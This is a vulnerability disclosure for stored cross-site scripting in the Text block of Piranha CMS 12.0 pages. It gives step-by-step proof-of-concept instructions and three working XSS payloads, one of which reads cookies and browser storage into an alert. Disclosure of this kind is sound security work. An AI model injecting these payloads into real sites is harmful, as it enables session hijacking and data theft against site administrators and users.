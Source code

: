 # Public Disclosure: Stored XSS in Text Block – Piranha CMS 12.0 #

<b>Title</b>:<br> Stored Cross-Site Scripting in Text Block of Standard and Archive Pages in Piranha CMS 12.0

### Summary: ###
Piranha CMS 12.0 contains a stored cross-site scripting (XSS) vulnerability affecting the “Text” content block used in both Standard Page and Standard Archive Page types. When adding text content via the page editor, user-supplied HTML is not properly sanitized. An authenticated user can inject JavaScript payloads that are saved with the page content. These scripts are executed immediately upon save and every time the page is previewed or accessed, resulting in persistent XSS. This presents a serious risk for shared admin environments and can lead to account compromise or unauthorized data access.

<b>CVE ID:</b>
(Pending Assignment)

<b> Vendor:</b><br>
https://piranhacms.org<br>
https://github.com/PiranhaCMS/piranha.core

<b>Affected Product:</b><br>
Piranha CMS version 12.0<br>
https://github.com/PiranhaCMS/piranha.core/releases/tag/v12.0

<b>Affected Component:</b><br>
Pages → Standard Page / Standard Archive →  Content Block --> Text <br>
Path: /manager/pages<br>

## <b> Proof-of-Concept (PoC)</b> ##

1. Log in to the Piranha CMS admin panel at /manager/login
   
2. Navigate to the Pages section
   ![Step 1a](assets/1a.png)

3. Click “Add Page” and choose either:

Standard Page, or Standard Archive
   ![Step 1b](assets/1b.png)

4  Enter a page title (e.g., XSS-Test)
   ![Step 1c](assets/1cc.png)

5. Click the [+] button and select “Text” under “Content”

6 In the text input area, paste one of the following payloads:

Payload A
 ```bash 
<img src="x" onerror="
  alert(
    'Cookies: ' + document.cookie + '\n' +
    'LocalStorage: ' + JSON.stringify(localStorage) + '\n' +
    'SessionStorage: ' + JSON.stringify(sessionStorage) + '\n' +
    'URL: ' + window.location.href + '\n' +
    'User Agent: ' + navigator.userAgent + '\n' +
    'Time: ' + new Date().toLocaleString()
  )
" />
 ```


Payload B

 ```bash 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

Payload C

 ```bash 
<details open ontoggle=alert('XSS')>Click</details>
```
   ![Step 1d](assets/1d.png)


7 Click Save and  Click Preview

 Boom 
 it executes again. Anyone who accesses  the page triggers the XSS.
   ![Step 1e](assets/1e.png)


<b>Impact:</b>
<br>
Persistent (Stored) Cross-Site Scripting (XSS): Injected scripts are saved as part of the page content.<br>
Automatic Execution: Payloads execute every time the page is accessed, previewed, or viewed by any user.<br>
Session Compromise: May lead to session hijacking or theft of sensitive data such as cookies, tokens, or local/session storage.<br>
Privilege Abuse: Enables malicious authenticated users to target other admins or editors, escalating access or impersonating users.<br>
Multi-Page Exposure: Affects both Standard Pages and Standard Archive Pages, increasing the overall attack surface.<br>

